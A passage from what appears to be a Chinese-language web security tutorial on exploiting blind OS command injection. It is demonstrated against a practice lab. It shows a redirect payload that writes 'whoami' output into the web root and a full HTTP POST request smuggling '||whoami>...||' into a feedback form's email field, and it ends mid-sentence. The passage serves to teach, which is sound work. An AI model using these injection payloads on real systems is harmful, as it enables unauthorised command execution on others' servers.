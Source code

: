 
### 盲注利用

#### 利用方式 1

虽然在命令注入的盲注类型中我们执行的结果并不会在回显中展示，但是我们可以通过重定向的方式将注入命令的输出重定向到 web 根目录中的文件中，随后再使用浏览器检索该文件，例如：如果应用程序从文件系统位置/var/www/static 提供静态资源，那么我们可以提交以下输入将命令执行的结果重定向到一个 txt 文件中去，随后可以使用浏览器来获取[https://vulnerable-website.com/whoami.txt检索文件并查看注入的命令的输出](https://vulnerable-website.com/whoami.txt%E6%A3%80%E7%B4%A2%E6%96%87%E4%BB%B6%E5%B9%B6%E6%9F%A5%E7%9C%8B%E6%B3%A8%E5%85%A5%E7%9A%84%E5%91%BD%E4%BB%A4%E7%9A%84%E8%BE%93%E5%87%BA)

```plain
& whoami > /var/www/static/whoami.txt &
```

在基于以上注入检测发现命令注入漏洞的点位后我们可以通过一下方式来将我们注入的命令执行结果进行重定向操作：

```plain
POST /feedback/submit HTTP/1.1
Host: 0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Connection: close
Content-Length: 118
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=5TpLf8MPquvWUsXWB1SApPbfyg3LWqKH

csrf=AjHRu5ULvg4evwywGajcQkAm1orbJUS1&name=QWQQ&email=||whoami>/var/www/images/output.txt||&subject=test&message=QWSGG
```

[![](assets/1708998334-e83c4c46f146ec077239dd10447dbf0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142231-17453bf4-d2dd-1.png)  
随后我们直接访问对应的静态资源文件获取命令执行的结果即可：
